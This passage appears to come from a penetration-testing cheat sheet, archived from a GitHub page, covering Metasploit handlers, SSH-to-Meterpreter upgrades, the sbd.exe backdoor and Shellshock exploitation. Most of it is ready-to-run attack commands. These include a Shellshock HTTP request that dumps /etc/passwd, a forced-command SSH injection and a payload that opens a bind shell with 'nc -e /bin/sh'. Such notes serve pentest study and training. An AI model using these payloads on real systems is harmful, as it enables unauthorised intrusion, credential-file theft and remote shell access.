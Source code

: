     **Handlers** Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z

    Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

*   SSH to Meterpreter: [https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/](http://web.archive.org/web/20171113221652/https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/)

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

*   SBD.exe

    sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32\. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only. sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.

*   Shellshock

    *   Testing for shell shock with NMap

    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

    *   git clone [https://github.com/nccgroup/shocker](http://web.archive.org/web/20171113221652/https://github.com/nccgroup/shocker)

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    *   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh

              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

    *   cat file (view file contents)

              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    *   Shell Shock run bind shell

             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

# [](#file-transfers)File Transfers
